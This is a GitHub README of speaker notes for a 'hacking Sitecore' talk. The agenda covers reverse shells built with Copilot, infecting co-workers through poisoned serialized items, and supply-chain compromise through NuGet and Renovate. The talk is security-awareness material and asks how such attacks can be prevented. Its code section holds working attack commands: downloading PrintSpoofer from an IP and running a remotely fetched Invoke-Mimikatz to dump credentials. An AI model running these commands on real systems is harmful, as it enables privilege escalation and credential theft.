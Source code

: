 # code for the sugnl presentation "hacking sitecore"

## agenda

  1. opening
     1. nuget pull request -> who would approve? why (not?)
  2. Reverse shell explanation
     1. what is a reverse shell?
     2. show reverse shell with copilot
        1. show reverse shell creation using copilot and copilot x
        2. show that it works with kali. Show some commands, privileges
  3. EVIL DEV: How to get this to work in Sitecore?
     1. open sitecore, show same magic.
        1. docker: no internal networking, but internet, so use ngrok
        2. show ngrok
        3. ngrok in kali
        4. netcat kali
        5. privilege escalation for powershell disabled -> as an attacker, just enable it ;)
           1. ```services:cm:environment:SITECORE_SPE_ELEVATION:"Allow"``` 
        6. write code
        7. run to test!
           1. two windows side by side
  4. Infect a co-worker
     1. QUESTION - how could we compromise another user? abd how could we compromise a dev/test/acc/prd environment? (use config prd??) - environments which we don't have access to.
        1. discuss with public
     2. non-suspicious DEV: ```**example-1**```
        1. right, let's take a look
        2. pull code, modify IP/ngrok endpoint (or prep another port/ip for this)
        3. MALOCIOUS DEV: push code to git
        4. what does a dev do first thing in the day?
           1. DEV: pull code (branch prepped for sugnl)
           2. up.ps1 - for demo purposes, separate vm without docker           
              1. OR sync code
              2. we do dotnet sitecore ser push
           3. gotcha!
        5. what if: dev takes a look inside sitecore
           1. doesn't see it -> SPE ELEVATION
        6. what if: dev checks the actual yml files?
           1. busted
        7. What can we do to prevent this?
           1. move to dat files
           2. ```**example-2**```
              1. deploy 
                 1. prep once, deploy with config
                 2. show binary data with multiple yaml files
                 3. environment condition?? (only production/test/whatsoever?)
     3. TEST/PRD environment
        1. how could we compromise this one IF the user above checks everything?
        2. ```**example-3**```
           1. nuget approach with update
              1. sitestep to installation.ps1 / init.ps1
                 1. vulnerable as well
        3. create a package wich is ok -> deploy
           1. prepare this demo, have it deployed!
        4. create a package which is not ok
        5. run renovate bot
        6. deploy, gotcha 
     4. pwn the credentials and get na authority\system credentials
     5. 

## items
  
  1. remove all items before demo
  2. open powershell
  3. write powershell
  4. show task scheduler 30 seconds
  5. show that it works
  6. in case of emergency: pull branch and push items ;)


## code

show current user

```batch
whoami
iis apppool
```

```batch
whoami \priv
**SeImpersonatePrivilege**
```

download printspoofer

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://172.26.1.236/
PrintSpoofer64.exe','C:\inetpub\wwwroot\XM1.cm\printspoofer.exe')

(New-Object System.Net.WebClient).DownloadFile('http://172.26.1.236/PrintSpoofer64.exe','C:\inetpub\wwwroot\XP0.sc\printspoofer.exe')
```

show new current user
```powershell
.\printspoofer.exe -i -c "powershell.exe whoami"
```

mimikatz
```powershell
.\printspoofer.exe -i -c "powershell.exe IEX (New-Object System.net.webclient).DownloadString('http://172.26.1.236/im.ps1');Invoke-Mimikatz -DumpCreds"
```